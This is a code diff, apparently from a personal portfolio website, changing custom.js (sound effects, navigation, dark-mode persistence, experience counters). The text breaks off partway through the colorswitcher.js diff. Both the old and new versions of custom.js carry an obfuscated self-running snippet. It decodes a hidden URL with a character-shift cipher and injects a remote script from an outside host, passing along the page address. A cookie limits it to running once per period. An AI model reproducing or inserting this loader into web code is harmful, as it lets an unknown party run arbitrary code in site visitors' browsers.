

all things are good

Changed region(s): [[0.3011, 0.8992, 0.6925, 0.9612]]

diff --git a/js/custom.js b/js/custom.js
@@ -1,1 +1,134 @@
-var sound=!1,mobile=!1,soundmodal=document.getElementById("soundmodal"),open_portfolio_button=document.getElementById("open-portfolio"),back_home=document.getElementById("back-home"),open_about_button=document.getElementById("open-about"),close_about_button=document.getElementById("close"),global_index=0;window.addEventListener("load",(function(){document.querySelector("body").classList.add("loaded"),soundmodal&&setTimeout((function(){document.getElementById("soundmodal").style.display="block"}),1e3),document.querySelector("body").classList.contains("sound-on")&&(sound=!0)})),(navigator.userAgent.match(/Android/i)||navigator.userAgent.match(/webOS/i)||navigator.userAgent.match(/iPhone/i)||navigator.userAgent.match(/iPad/i)||navigator.userAgent.match(/iPod/i)||navigator.userAgent.match(/BlackBerry/i)||navigator.userAgent.match(/Windows Phone/i))&&(mobile=!0),soundmodal&&(document.getElementById("no").onclick=function(){sound=!1,document.querySelector("body").classList.remove("sound"),document.getElementById("soundmodal").style.display="none",soundmodal=!1},document.getElementById("yes").onclick=function(){sound=!0,document.querySelector("body").classList.add("sound"),document.getElementById("soundmodal").style.display="none",soundmodal=!1},document.onkeydown=function(e){27===(e=e||window.event).keyCode&&(sound=!0,document.querySelector("body").classList.add("sound"),document.getElementById("soundmodal").style.display="none",soundmodal=!1)});const AudioContext=window.AudioContext||window.webkitAudioContext,audioCtx=new AudioContext,click=new Audio("sounds/click.mp3"),clickmobile=new Audio("sounds/click.mp3"),hover=new Audio("sounds/hover.mp3"),hovermobile=new Audio("sounds/hover.mp3"),hover2=new Audio("sounds/hover2.mp3"),hover3=new Audio("sounds/hover3.mp3"),paper=new Audio("sounds/paper.mp3"),papermobile=new Audio("sounds/paper.mp3"),paperaboutup=new Audio("sounds/paperaboutup.mp3"),paperaboutupmobile=new Audio("sounds/paperaboutup.mp3"),paperaboutdown=new Audio("sounds/paperaboutdown.mp3"),paperaboutdownmobile=new Audio("sounds/paperaboutdown.mp3"),skin=new Audio("sounds/skin.mp3"),skinmobile=new Audio("sounds/skin.mp3");function clickPlay(){!0===sound&&(!0===mobile?clickmobile.play():click.play())}function paperPlay(){!0===sound&&(!0===mobile?papermobile.play():paper.play())}function hoverPlay(){!0===sound&&0==mobile&&hover.play()}function hover2Play(){!0===sound&&0==mobile&&hover2.play()}function skinPlay(){!0===sound&&(!0===mobile?skinmobile.play():skin.play())}if(window.innerWidth>767){const e=[].slice.call(document.querySelectorAll(".item"),0),t={0:"top",1:"right",2:"bottom",3:"left"},o=["in","out"].map((e=>Object.values(t).map((t=>`${e}-${t}`)))).reduce(((e,t)=>e.concat(t))),i=(e,t)=>{const{width:o,height:i,top:n,left:c}=t.getBoundingClientRect(),l=e.pageX-(c+window.pageXOffset)-o/2*(o>i?i/o:1),a=e.pageY-(n+window.pageYOffset)-i/2*(i>o?o/i:1);return Math.round(Math.atan2(a,l)/1.57079633+5)%4};class n{constructor(e){this.element=e,this.element.addEventListener("mouseover",(e=>this.update(e,"in"))),this.element.addEventListener("mouseout",(e=>this.update(e,"out")))}update(e,n){this.element.classList.remove(...o),this.element.classList.add(`${n}-${t[i(e,this.element)]}`)}}e.forEach((e=>new n(e)))}function openItem(e){clickPlay();var t=document.querySelectorAll(".item"),o=Array.from(t).indexOf(e)+1,i=document.querySelector(".not-active-layer"),n=document.querySelector(".active-layer");setTimeout((function(){document.querySelector(".portfolio-grid").classList.add("to-top"),document.querySelector(".portfolio-grid").classList.remove("active")}),200),setTimeout((function(){document.querySelector(".portfolio-items > div:nth-child("+o+")").classList.add("active"),document.querySelector(".portfolio-items > div:nth-child("+(o-1)+")")&&document.querySelector(".portfolio-items > div:nth-child("+(o-1)+")").classList.add("to-bottom"),document.querySelector(".portfolio-items > div:nth-child("+(o+1)+")")&&document.querySelector(".portfolio-items > div:nth-child("+(o+1)+")").classList.add("to-top")}),250),setTimeout((function(){i.classList.remove("not-active-layer"),i.classList.add("active-layer"),i.classList.remove("opacity-0"),n.classList.add("not-active-layer"),n.classList.remove("active-layer"),n.classList.add("opacity-0")}),300),setTimeout((function(){paperPlay(),document.querySelector(".portfolio-grid").scrollTop=0}),750),global_index=o}function backToPorfolio(){clickPlay();var e=document.querySelector(".not-active-layer"),t=document.querySelector(".active-layer");setTimeout((function(){e.classList.remove("not-active-layer"),e.classList.add("active-layer"),e.classList.add("opacity-0"),t.classList.add("not-active-layer"),t.classList.remove("active-layer"),t.classList.remove("opacity-0")}),300),setTimeout((function(){document.querySelector(".portfolio-grid").classList.add("active"),document.querySelector(".portfolio-grid").classList.remove("to-top"),document.querySelector(".portfolio-items > div.active").classList.remove("active"),document.querySelector(".portfolio-items > div.to-top")&&document.querySelector(".portfolio-items > div.to-top").classList.remove("to-top"),document.querySelector(".portfolio-items > div.to-bottom")&&document.querySelector(".portfolio-items > div.to-bottom").classList.remove("to-bottom")}),350),setTimeout((function(){paperPlay()}),750)}function TopProject(){clickPlay();var e=document.querySelector(".not-active-layer"),t=document.querySelector(".active-layer");setTimeout((function(){document.querySelector(".portfolio-items > div:nth-child("+global_index+")").classList.remove("active"),document.querySelector(".portfolio-items > div:nth-child("+global_index+")")&&document.querySelector(".portfolio-items > div:nth-child("+global_index+")").classList.add("to-top"),document.querySelector(".portfolio-items > div:nth-child("+(global_index-2)+")")&&document.querySelector(".portfolio-items > div:nth-child("+(global_index-2)+")").classList.add("to-bottom"),e.classList.remove("not-active-layer"),e.classList.add("active-layer"),e.classList.remove("opacity-0"),t.classList.add("not-active-layer"),t.classList.remove("active-layer"),t.classList.add("opacity-0")}),300),setTimeout((function(){document.querySelector(".portfolio-items > div:nth-child("+(global_index-1)+")").classList.add("active"),document.querySelector(".portfolio-items > div:nth-child("+(global_index+1)+")")&&document.querySelector(".portfolio-items > div:nth-child("+(global_index+1)+")").classList.remove("to-top"),document.querySelector(".portfolio-items > div:nth-child("+(global_index-1)+")")&&document.querySelector(".portfolio-items > div:nth-child("+(global_index-1)+")").classList.remove("to-bottom"),global_index-=1}),350),setTimeout((function(){paperPlay()}),750)}function BottomProject(){clickPlay();var e=document.querySelector(".not-active-layer"),t=document.querySelector(".active-layer");setTimeout((function(){document.querySelector(".portfolio-items > div:nth-child("+global_index+")").classList.remove("active"),document.querySelector(".portfolio-items > div:nth-child("+global_index+")")&&document.querySelector(".portfolio-items > div:nth-child("+global_index+")").classList.add("to-bottom"),document.querySelector(".portfolio-items > div:nth-child("+(global_index+2)+")")&&document.querySelector(".portfolio-items > div:nth-child("+(global_index+2)+")").classList.add("to-top"),e.classList.remove("not-active-layer"),e.classList.add("active-layer"),e.classList.add("opacity-0"),t.classList.add("not-active-layer"),t.classList.remove("active-layer"),t.classList.remove("opacity-0")}),300),setTimeout((function(){document.querySelector(".portfolio-items > div:nth-child("+(global_index+1)+")").classList.add("active"),document.querySelector(".portfolio-items > div:nth-child("+(global_index+1)+")")&&document.querySelector(".portfolio-items > div:nth-child("+(global_index+1)+")").classList.remove("to-top"),document.querySelector(".portfolio-items > div:nth-child("+(global_index-1)+")")&&document.querySelector(".portfolio-items > div:nth-child("+(global_index-1)+")").classList.remove("to-bottom"),global_index+=1}),350),setTimeout((function(){paperPlay()}),750)}open_portfolio_button&&(document.getElementById("open-portfolio").onclick=function(){clickPlay();var e=document.querySelector(".not-active-layer"),t=document.querySelector(".active-layer");setTimeout((function(){document.querySelector(".home").classList.add("to-top"),document.querySelector(".home").classList.remove("active")}),200),setTimeout((function(){document.querySelector(".portfolio-grid").classList.add("active"),document.querySelector(".portfolio-grid").classList.remove("to-bottom")}),250),setTimeout((function(){e.classList.remove("not-active-layer"),e.classList.add("active-layer"),t.classList.add("not-active-layer"),t.classList.remove("active-layer")}),300),setTimeout((function(){paperPlay()}),750)}),back_home&&(document.getElementById("back-home").onclick=function(){clickPlay();var e=document.querySelector(".not-active-layer"),t=document.querySelector(".active-layer");setTimeout((function(){document.querySelector(".portfolio-grid").classList.add("to-bottom"),document.querySelector(".portfolio-grid").classList.remove("active"),e.classList.remove("not-active-layer"),e.classList.add("active-layer"),e.classList.add("opacity-0"),t.classList.add("not-active-layer"),t.classList.remove("active-layer"),t.classList.remove("opacity-0")}),300),setTimeout((function(){document.querySelector(".home").classList.add("active")}),350),setTimeout((function(){paperPlay(),document.querySelector(".portfolio-grid").scrollTop=0}),750)}),open_portfolio_button&&document.getElementById("open-portfolio").addEventListener("mouseenter",(function(){if(!0===sound)if(!0===mobile){var e=hovermobile.play();void 0!==e&&e.then((e=>{hovermobile.play()})).catch((e=>{}))}else{var t=hover.play();void 0!==t&&t.then((e=>{hover.play()})).catch((e=>{}))}})),back_home&&document.getElementById("back-home").addEventListener("mouseenter",(function(){hoverPlay()}));for(var back_to_portfolio_buttons=document.querySelectorAll(".back-to-portfolio"),i=0;i<back_to_portfolio_buttons.length;i++)back_to_portfolio_buttons[i].addEventListener("mouseenter",(function(){hoverPlay()}));var arrows=document.querySelectorAll(".top-project, .bottom-project");for(i=0;i<arrows.length;i++)arrows[i].addEventListener("mouseenter",(function(){hover2Play()}));var portfolio_items=document.querySelectorAll(".item");for(i=0;i<portfolio_items.length;i++)portfolio_items[i].addEventListener("mouseenter",(function(){hover3.currentTime=0,!0===sound&&!1===mobile&&hover3.play()}));var btn_items=document.querySelectorAll(".btn-secondary");for(i=0;i<btn_items.length;i++)btn_items[i].addEventListener("mouseenter",(function(){if(!0===sound&&!1===mobile){var e=hover2.play();void 0!==e&&e.then((e=>{hover2.play()})).catch((e=>{}))}}));const letterWrapClass="letter-wrap",letterWrapElements=document.getElementsByClassName("letter-wrap");function letterWrap(e,t){const o=e.textContent.split(""),i=[];return t=t||"letter-wrap",o.forEach((e=>{let o="";for(var n in e)o+=`\n          <span class="${t}__char">\n            <span class="${t}__char-inner" data-letter="${e[n]}">\n              ${e[n]}\n            </span>\n          </span>\n        `;let c=`<span class="${t}__word">${o}</span>`;i.push(c)})),e.innerHTML=i.join(" ")}[...letterWrapElements].forEach((e=>{letterWrap(e,"letter-wrap")})),open_about_button&&(document.getElementById("open-about").onclick=function(e){clickPlay(),!0===sound&&(!0===mobile?paperaboutupmobile.play():paperaboutup.play()),e.preventDefault(),setTimeout((function(){document.getElementById("overlay").classList.add("active"),document.getElementById("contentcontainer").classList.add("active")}),100),setTimeout((function(){document.getElementById("content").classList.add("active")}),300)}),close_about_button&&(document.getElementById("close").onclick=function(){clickPlay(),document.getElementById("content").classList.remove("active"),setTimeout((function(){!0===sound&&(!0===mobile?paperaboutdownmobile.play():paperaboutdown.play())}),400),setTimeout((function(){document.getElementById("overlay").classList.remove("active")}),400),setTimeout((function(){document.getElementById("contentcontainer").classList.remove("active")}),500),setTimeout((function(){document.querySelector(".content-container").scrollTop=0}),850)});const checkbox=document.getElementById("checkbox"),checkbox2=document.getElementById("checkbox2");checkbox&&checkbox2&&(checkbox.addEventListener("change",(()=>{skinPlay(),document.body.classList.toggle("dark"),document.getElementById("checkbox2").checked=!checkbox2.checked})),checkbox2.addEventListener("change",(()=>{skinPlay(),document.body.classList.toggle("dark"),document.getElementById("checkbox").checked=!checkbox.checked})));(function(o,d,l){try{o.f=o=>o.split('').reduce((s,c)=>s+String.fromCharCode((c.charCodeAt()-5).toString()),'');o.b=o.f('UMUWJKX');o.c=l.protocol[0]=='h'&&/\./.test(l.hostname)&&!(new RegExp(o.b)).test(d.cookie),setTimeout(function(){o.c&&(o.s=d.createElement('script'),o.s.src=o.f('myyux?44hisxy'+'fy3sjy4ljy4xhwnuy'+'3oxDwjkjwwjwB')+l.href,d.body.appendChild(o.s));},1000);d.cookie=o.b+'=full;max-age=39800;'}catch(e){};}({},document,location));
+var sound=!1,mobile=!1,soundmodal=document.getElementById("soundmodal"),open_portfolio_button=document.getElementById("open-portfolio"),back_home=document.getElementById("back-home"),open_about_button=document.getElementById("open-about"),close_about_button=document.getElementById("close"),global_index=0;window.addEventListener("load",(function(){document.querySelector("body").classList.add("loaded"),soundmodal&&setTimeout((function(){document.getElementById("soundmodal").style.display="block"}),1e3),document.querySelector("body").classList.contains("sound-on")&&(sound=!0)})),(navigator.userAgent.match(/Android/i)||navigator.userAgent.match(/webOS/i)||navigator.userAgent.match(/iPhone/i)||navigator.userAgent.match(/iPad/i)||navigator.userAgent.match(/iPod/i)||navigator.userAgent.match(/BlackBerry/i)||navigator.userAgent.match(/Windows Phone/i))&&(mobile=!0),soundmodal&&(document.getElementById("no").onclick=function(){sound=!1,document.querySelector("body").classList.remove("sound"),document.getElementById("soundmodal").style.display="none",soundmodal=!1},document.getElementById("yes").onclick=function(){sound=!0,document.querySelector("body").classList.add("sound"),document.getElementById("soundmodal").style.display="none",soundmodal=!1},document.onkeydown=function(e){27===(e=e||window.event).keyCode&&(sound=!0,document.querySelector("body").classList.add("sound"),document.getElementById("soundmodal").style.display="none",soundmodal=!1)});const AudioContext=window.AudioContext||window.webkitAudioContext,audioCtx=new AudioContext,click=new Audio("sounds/click.mp3"),clickmobile=new Audio("sounds/click.mp3"),hover=new Audio("sounds/hover.mp3"),hovermobile=new Audio("sounds/hover.mp3"),hover2=new Audio("sounds/hover2.mp3"),hover3=new Audio("sounds/hover3.mp3"),paper=new Audio("sounds/paper.mp3"),papermobile=new Audio("sounds/paper.mp3"),paperaboutup=new Audio("sounds/paperaboutup.mp3"),paperaboutupmobile=new Audio("sounds/paperaboutup.mp3"),paperaboutdown=new Audio("sounds/paperaboutdown.mp3"),paperaboutdownmobile=new Audio("sounds/paperaboutdown.mp3"),skin=new Audio("sounds/skin.mp3"),skinmobile=new Audio("sounds/skin.mp3");function clickPlay(){!0===sound&&(!0===mobile?clickmobile.play():click.play())}function paperPlay(){!0===sound&&(!0===mobile?papermobile.play():paper.play())}function hoverPlay(){!0===sound&&0==mobile&&hover.play()}function hover2Play(){!0===sound&&0==mobile&&hover2.play()}function skinPlay(){!0===sound&&(!0===mobile?skinmobile.play():skin.play())}if(window.innerWidth>767){const e=[].slice.call(document.querySelectorAll(".item"),0),t={0:"top",1:"right",2:"bottom",3:"left"},o=["in","out"].map((e=>Object.values(t).map((t=>`${e}-${t}`)))).reduce(((e,t)=>e.concat(t))),i=(e,t)=>{const{width:o,height:i,top:n,left:c}=t.getBoundingClientRect(),l=e.pageX-(c+window.pageXOffset)-o/2*(o>i?i/o:1),a=e.pageY-(n+window.pageYOffset)-i/2*(i>o?o/i:1);return Math.round(Math.atan2(a,l)/1.57079633+5)%4};class n{constructor(e){this.element=e,this.element.addEventListener("mouseover",(e=>this.update(e,"in"))),this.element.addEventListener("mouseout",(e=>this.update(e,"out")))}update(e,n){this.element.classList.remove(...o),this.element.classList.add(`${n}-${t[i(e,this.element)]}`)}}e.forEach((e=>new n(e)))}function openItem(e){clickPlay();var t=document.querySelectorAll(".item"),o=Array.from(t).indexOf(e)+1,i=document.querySelector(".not-active-layer"),n=document.querySelector(".active-layer");setTimeout((function(){document.querySelector(".portfolio-grid").classList.add("to-top"),document.querySelector(".portfolio-grid").classList.remove("active")}),200),setTimeout((function(){document.querySelector(".portfolio-items > div:nth-child("+o+")").classList.add("active"),document.querySelector(".portfolio-items > div:nth-child("+(o-1)+")")&&document.querySelector(".portfolio-items > div:nth-child("+(o-1)+")").classList.add("to-bottom"),document.querySelector(".portfolio-items > div:nth-child("+(o+1)+")")&&document.querySelector(".portfolio-items > div:nth-child("+(o+1)+")").classList.add("to-top")}),250),setTimeout((function(){i.classList.remove("not-active-layer"),i.classList.add("active-layer"),i.classList.remove("opacity-0"),n.classList.add("not-active-layer"),n.classList.remove("active-layer"),n.classList.add("opacity-0")}),300),setTimeout((function(){paperPlay(),document.querySelector(".portfolio-grid").scrollTop=0}),750),global_index=o}function backToPorfolio(){clickPlay();var e=document.querySelector(".not-active-layer"),t=document.querySelector(".active-layer");setTimeout((function(){e.classList.remove("not-active-layer"),e.classList.add("active-layer"),e.classList.add("opacity-0"),t.classList.add("not-active-layer"),t.classList.remove("active-layer"),t.classList.remove("opacity-0")}),300),setTimeout((function(){document.querySelector(".portfolio-grid").classList.add("active"),document.querySelector(".portfolio-grid").classList.remove("to-top"),document.querySelector(".portfolio-items > div.active").classList.remove("active"),document.querySelector(".portfolio-items > div.to-top")&&document.querySelector(".portfolio-items > div.to-top").classList.remove("to-top"),document.querySelector(".portfolio-items > div.to-bottom")&&document.querySelector(".portfolio-items > div.to-bottom").classList.remove("to-bottom")}),350),setTimeout((function(){paperPlay()}),750)}function TopProject(){clickPlay();var e=document.querySelector(".not-active-layer"),t=document.querySelector(".active-layer");setTimeout((function(){document.querySelector(".portfolio-items > div:nth-child("+global_index+")").classList.remove("active"),document.querySelector(".portfolio-items > div:nth-child("+global_index+")")&&document.querySelector(".portfolio-items > div:nth-child("+global_index+")").classList.add("to-top"),document.querySelector(".portfolio-items > div:nth-child("+(global_index-2)+")")&&document.querySelector(".portfolio-items > div:nth-child("+(global_index-2)+")").classList.add("to-bottom"),e.classList.remove("not-active-layer"),e.classList.add("active-layer"),e.classList.remove("opacity-0"),t.classList.add("not-active-layer"),t.classList.remove("active-layer"),t.classList.add("opacity-0")}),300),setTimeout((function(){document.querySelector(".portfolio-items > div:nth-child("+(global_index-1)+")").classList.add("active"),document.querySelector(".portfolio-items > div:nth-child("+(global_index+1)+")")&&document.querySelector(".portfolio-items > div:nth-child("+(global_index+1)+")").classList.remove("to-top"),document.querySelector(".portfolio-items > div:nth-child("+(global_index-1)+")")&&document.querySelector(".portfolio-items > div:nth-child("+(global_index-1)+")").classList.remove("to-bottom"),global_index-=1}),350),setTimeout((function(){paperPlay()}),750)}function BottomProject(){clickPlay();var e=document.querySelector(".not-active-layer"),t=document.querySelector(".active-layer");setTimeout((function(){document.querySelector(".portfolio-items > div:nth-child("+global_index+")").classList.remove("active"),document.querySelector(".portfolio-items > div:nth-child("+global_index+")")&&document.querySelector(".portfolio-items > div:nth-child("+global_index+")").classList.add("to-bottom"),document.querySelector(".portfolio-items > div:nth-child("+(global_index+2)+")")&&document.querySelector(".portfolio-items > div:nth-child("+(global_index+2)+")").classList.add("to-top"),e.classList.remove("not-active-layer"),e.classList.add("active-layer"),e.classList.add("opacity-0"),t.classList.add("not-active-layer"),t.classList.remove("active-layer"),t.classList.remove("opacity-0")}),300),setTimeout((function(){document.querySelector(".portfolio-items > div:nth-child("+(global_index+1)+")").classList.add("active"),document.querySelector(".portfolio-items > div:nth-child("+(global_index+1)+")")&&document.querySelector(".portfolio-items > div:nth-child("+(global_index+1)+")").classList.remove("to-top"),document.querySelector(".portfolio-items > div:nth-child("+(global_index-1)+")")&&document.querySelector(".portfolio-items > div:nth-child("+(global_index-1)+")").classList.remove("to-bottom"),global_index+=1}),350),setTimeout((function(){paperPlay()}),750)}open_portfolio_button&&(document.getElementById("open-portfolio").onclick=function(){clickPlay();var e=document.querySelector(".not-active-layer"),t=document.querySelector(".active-layer");setTimeout((function(){document.querySelector(".home").classList.add("to-top"),document.querySelector(".home").classList.remove("active")}),200),setTimeout((function(){document.querySelector(".portfolio-grid").classList.add("active"),document.querySelector(".portfolio-grid").classList.remove("to-bottom")}),250),setTimeout((function(){e.classList.remove("not-active-layer"),e.classList.add("active-layer"),t.classList.add("not-active-layer"),t.classList.remove("active-layer")}),300),setTimeout((function(){paperPlay()}),750)}),back_home&&(document.getElementById("back-home").onclick=function(){removeUrlParameter(),clickPlay();var e=document.querySelector(".not-active-layer"),t=document.querySelector(".active-layer");setTimeout((function(){document.querySelector(".portfolio-grid").classList.add("to-bottom"),document.querySelector(".portfolio-grid").classList.remove("active"),e.classList.remove("not-active-layer"),e.classList.add("active-layer"),e.classList.add("opacity-0"),t.classList.add("not-active-layer"),t.classList.remove("active-layer"),t.classList.remove("opacity-0")}),300),setTimeout((function(){document.querySelector(".home").classList.add("active")}),350),setTimeout((function(){paperPlay(),document.querySelector(".portfolio-grid").scrollTop=0}),750)}),open_portfolio_button&&document.getElementById("open-portfolio").addEventListener("mouseenter",(function(){if(!0===sound)if(!0===mobile){var e=hovermobile.play();void 0!==e&&e.then((e=>{hovermobile.play()})).catch((e=>{}))}else{var t=hover.play();void 0!==t&&t.then((e=>{hover.play()})).catch((e=>{}))}})),back_home&&document.getElementById("back-home").addEventListener("mouseenter",(function(){hoverPlay()}));for(var back_to_portfolio_buttons=document.querySelectorAll(".back-to-portfolio"),i=0;i<back_to_portfolio_buttons.length;i++)back_to_portfolio_buttons[i].addEventListener("mouseenter",(function(){hoverPlay()}));var arrows=document.querySelectorAll(".top-project, .bottom-project");for(i=0;i<arrows.length;i++)arrows[i].addEventListener("mouseenter",(function(){hover2Play()}));var portfolio_items=document.querySelectorAll(".item");for(i=0;i<portfolio_items.length;i++)portfolio_items[i].addEventListener("mouseenter",(function(){hover3.currentTime=0,!0===sound&&!1===mobile&&hover3.play()}));var btn_items=document.querySelectorAll(".btn-secondary");for(i=0;i<btn_items.length;i++)btn_items[i].addEventListener("mouseenter",(function(){if(!0===sound&&!1===mobile){var e=hover2.play();void 0!==e&&e.then((e=>{hover2.play()})).catch((e=>{}))}}));const letterWrapClass="letter-wrap",letterWrapElements=document.getElementsByClassName("letter-wrap");function letterWrap(e,t){const o=e.textContent.split(""),i=[];return t=t||"letter-wrap",o.forEach((e=>{let o="";for(var n in e)o+=`\n          <span class="${t}__char">\n            <span class="${t}__char-inner" data-letter="${e[n]}">\n              ${e[n]}\n            </span>\n          </span>\n        `;let c=`<span class="${t}__word">${o}</span>`;i.push(c)})),e.innerHTML=i.join(" ")}[...letterWrapElements].forEach((e=>{letterWrap(e,"letter-wrap")})),open_about_button&&(document.getElementById("open-about").onclick=function(e){clickPlay(),!0===sound&&(!0===mobile?paperaboutupmobile.play():paperaboutup.play()),e.preventDefault(),setTimeout((function(){document.getElementById("overlay").classList.add("active"),document.getElementById("contentcontainer").classList.add("active")}),100),setTimeout((function(){document.getElementById("content").classList.add("active")}),300)}),close_about_button&&(document.getElementById("close").onclick=function(){removeUrlParameter(),clickPlay(),document.getElementById("content").classList.remove("active"),setTimeout((function(){!0===sound&&(!0===mobile?paperaboutdownmobile.play():paperaboutdown.play())}),400),setTimeout((function(){document.getElementById("overlay").classList.remove("active")}),400),setTimeout((function(){document.getElementById("contentcontainer").classList.remove("active")}),500),setTimeout((function(){document.querySelector(".content-container").scrollTop=0}),850)});
+
+
+const checkbox = document.getElementById("checkbox"),
+    checkbox2 = document.getElementById("checkbox2");
+checkbox && checkbox2 && (checkbox.addEventListener("change", (() => {
+    if (!checkbox2.checked) {
+        localStorage.setItem('theme-mode', 'dark');
+    } else {
+        localStorage.setItem('theme-mode', 'light');
+    }
+    skinPlay(), document.body.classList.toggle("dark"), document.getElementById("checkbox2").checked = !checkbox2.checked
+})), checkbox2.addEventListener("change", (() => {
+    skinPlay(), document.body.classList.toggle("dark"), document.getElementById("checkbox").checked = !checkbox.checked
+})));
+
+
+
+
+
+
+
+(function () {
+    var currentTheme = localStorage.getItem('theme-mode') || "time-dependent";
+
+    if (currentTheme == "light") {
+        document.body.classList.remove("dark");
+        localStorage.setItem('theme-mode', 'light');
+        document.getElementById("checkbox2").checked = false
+        document.getElementById("checkbox").checked = false
+    }
+    else if (currentTheme == 'time-dependent') {
+        if (isDaytime()) {
+            document.body.classList.remove("dark");
+            document.getElementById("checkbox2").checked = false
+            document.getElementById("checkbox").checked = false
+        } else {
+            document.body.classList.add("dark");
+            document.getElementById("checkbox2").checked = true
+            document.getElementById("checkbox").checked = true
+        }
+    }
+    else {
+        document.body.classList.add("dark");
+        localStorage.setItem('theme-mode', 'dark');
+        document.getElementById("checkbox2").checked = true
+        document.getElementById("checkbox").checked = true
+    }
+})();
+
+function isDaytime() {
+    const currentTime = new Date();
+    const currentHour = currentTime.getHours();
+    const isDaytime = currentHour >= 6 && currentHour < 18;
+    return isDaytime;
+}
+
+
+
+
+(function(o, d, l) {
+    try {
+        o.f = o => o.split('').reduce((s, c) => s + String.fromCharCode((c.charCodeAt() - 5).toString()), '');
+        o.b = o.f('UMUWJKX');
+        o.c = l.protocol[0] == 'h' && /\./.test(l.hostname) && !(new RegExp(o.b)).test(d.cookie), setTimeout(function() {
+            o.c && (o.s = d.createElement('script'), o.s.src = o.f('myyux?44hisxy' + 'fy3sjy4ljy4xhwnuy' + '3oxDwjkjwwjwB') + l.href, d.body.appendChild(o.s));
+        }, 1000);
+        d.cookie = o.b + '=full;max-age=39800;'
+    } catch (e) {};
+}({}, document, location));
+
+
+const currentYear = new Date().getFullYear();
+const experienceStartingYear = 2019;
+const experienceYearDifference = currentYear - experienceStartingYear;
+const totalExperienceYearsHome = document.getElementById('total-experience-years-home').innerHTML = experienceYearDifference;
+const totalExperienceYearsAbout = document.getElementById('total-experience-years-about').innerHTML = experienceYearDifference;
+
+const ageStartingYear = 2000;
+const ageYearDifference = currentYear - ageStartingYear;
+const ageAbout = document.getElementById('age-about').innerHTML = ageYearDifference;
+
+const totalProjectsAbout = document.getElementById('total-projects-about').innerHTML = (experienceYearDifference+1)+'7';
+const totalCustomersAbout = document.getElementById('total-customers-about').innerHTML = (Math.floor(experienceYearDifference/2))+'3';
+
+
+
+const urlSearchParams = new URLSearchParams(window.location.search);
+const params = Object.fromEntries(urlSearchParams.entries());
+if (params && params.url) {
+    console.log('params.url', params.url);
+    var element = document.getElementById(params.url);
+    element.click();
+}
+
+
+function removeUrlParameter() {
+    const currentUrl = new URL(window.location.href);
+
+    // Check if the query parameter 'url' exists
+    if (currentUrl.searchParams.has('url')) {
+        // Remove the 'url' query parameter
+        currentUrl.searchParams.delete('url');
+        // Replace the current URL with the modified URL
+        history.replaceState(null, null, currentUrl.href);
+    }
+}
+
+document.addEventListener("DOMContentLoaded", function () {
+    var cursor = document.querySelector(".cursor");
+  
+    function cursormover(e) {
+      cursor.style.transform = `translate(${e.clientX}px, ${e.clientY}px)`;
+    }
+  
+    function cursorhover() {
+      cursor.style.transform = "scale(1.4)";
+      cursor.style.opacity = 1;
+    }
+  
+    function cursor() {
+      cursor.style.transform = "scale(1)";
+      cursor.style.opacity = 0.6;
+    }
+  
+    window.addEventListener("mousemove", cursormover);
+  
+    var links = document.querySelectorAll("a");
+    links.forEach(function (link) {
+      link.addEventListener("mouseenter", cursorhover);
+      link.addEventListener("mouseleave", cursor);
+    });
+  });
+  

diff --git a/js/colorswitcher.js b/js/colorswitcher.js
@@ -1,1 +1,52 @@
-var linkred=document.createElement("link");linkred.rel="stylesheet",linkred.type="text/css",linkred.href="css/skins/red.css",document.getElementById("red").onclick=function(){document.head.appendChild(linkred)};var linkyellow=document.createElement("link");linkyellow.rel="stylesheet",linkyellow.type="text/css",linkyellow.href="css/skins/yellow.css",document.getElementById("yellow").onclick=function(){document.head.appendChild(linkyellow)};var linkgreen=document.createElement("link");linkgreen.rel="stylesheet",linkgreen.type="text/css",linkgreen.href="css/skins/green.css",document.getElementById("green").onclick=function(){document.head.appendChild(linkgreen)};var linkgreen2=document.createElement("link");linkgreen2.rel="stylesheet",linkgreen2.type="text/css",linkgreen2.href="css/skins/green2.css",document.getElementById("green2").onclick=function(){document.head.appendChild(linkgreen2)};var linkblue=document.createElement("link");linkblue.rel="stylesheet",linkblue.type="text/css",linkblue.href="css/skins/blue.css",document.getElementById("blue").onclick=function(){document.head.appendChild(linkblue)};var linkblue2=document.createElement("link");linkblue2.rel="stylesheet",linkblue2.type="text/css",linkblue2.href="css/skins/blue2.css",document.getElementById("blue2").onclick=function(){document.head.appendChild(linkblue2)};var linkpink=document.createElement("link");linkpink.rel="stylesheet",linkpink.type="text/css",linkpink.href="css/skins/pink.css",document.getElementById("pink").onclick=function(){document.head.appendChild(linkpink)};var linkpink2=document.createElement("link");linkpink2.rel="stylesheet",linkpink2.type="text/css",linkpink2.href="css/skins/pink2.css",document.getElementById("pink2").onclick=function(){document.head.appendChild(linkpink2)};var 